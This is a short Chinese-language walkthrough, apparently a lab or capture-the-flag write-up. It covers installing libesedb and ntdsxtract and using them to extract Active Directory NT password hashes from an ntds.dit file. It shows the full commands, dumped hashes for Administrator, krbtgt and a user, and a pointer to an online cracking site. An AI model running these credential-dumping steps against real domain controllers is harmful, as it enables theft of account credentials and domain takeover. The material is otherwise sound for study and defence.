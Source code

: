 ### 安装
简而言之，下面的工具就是用来提取目录数据库中保存的hash的。

#### libesedb
```
git clone https://github.com/libyal/libesedb.git
cd libesedb/

apt-get install git autoconf automake autopoint libtool pkg-config build-essential

./synclibs.sh
./autogen.sh
./configure 将源代码编译
make
make install
ldconfig
```
#### ntdsxtract

```
git clone https://github.com/csababarta/ntdsxtract
cd ntdsxtract
python setup.py build && python setup.py install
```
#### 使用方法：
[video:提取hash](https://blog.didierstevens.com/2016/07/30/video-ntds-dit-extract-hashes-with-secretsdump-py/)

```
esedbexport -m tables ntds.dit 
该命令运行后，会生成一个文件夹，ntds.dit.export

cd ntds.dit.export;ls
可以查看生成了一些文件，注意datatable.3、link_table.5

文件绝对路径: 
1. /root/Desktop/10.10.10.55/ntds.dit.export/datatable.3
2. /root/Desktop/10.10.10.55/ntds.dit.export/link_table.5
3. 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
重命名为SYSTEM

dsusers.py 路径1 路径2 hashdump（生成的文件夹名称） --syshive 文件3 --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc

最终的命令
dsusers.py /root/Desktop/10.10.10.55/ntds.dit.export/datatable.3 /root/Desktop/10.10.10.55/ntds.dit.export/link_table.5 hashdump --syshive SYSTEM --passwordhashes --lmoutfile lmout.txt --ntoutfile ntout.txt --pwdformat ophc

在生成的文件夹hashdump，可以找到ntout.txt

ntout.txt的内容如下
Administrator:::e64fe0f24ba2489c05e64354d74ebd11:S-1-5-21-1036816736-4081296861-1938768537-500::
krbtgt:::ca1ccefcb525db49828fbb9d68298eee:S-1-5-21-1036816736-4081296861-1938768537-502::
atanas:::2b576acbe6bcfda7294d6bd18041b8fe:S-1-5-21-1036816736-4081296861-1938768537-1108::
```
复制2b576acbe6bcfda7294d6bd18041b8fe，在在线密码破解网站[https://crackstation.net/](https://crackstation.net/)
